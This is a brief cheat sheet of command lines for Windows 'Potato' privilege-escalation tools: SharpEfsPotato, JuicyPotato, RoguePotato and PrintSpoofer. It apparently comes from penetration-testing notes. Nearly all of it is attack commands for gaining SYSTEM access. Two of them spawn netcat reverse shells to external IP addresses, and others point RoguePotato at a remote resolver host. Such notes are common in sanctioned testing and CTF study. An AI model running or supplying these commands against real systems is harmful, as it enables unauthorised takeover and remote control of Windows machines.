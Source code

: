 https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer
## SharpEfsPotato

```
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
```

## JuicyPotato
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. 

```powershell
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
## RoguePotato

```
Examples:
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r 10.10.14.165 -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode

```

## PrintSpoofer
```powershell
.\PrintSpoofer64.exe -c "C:\Users\Public\Documents\nc64.exe 10.10.14.165 5555 -e cmd"
```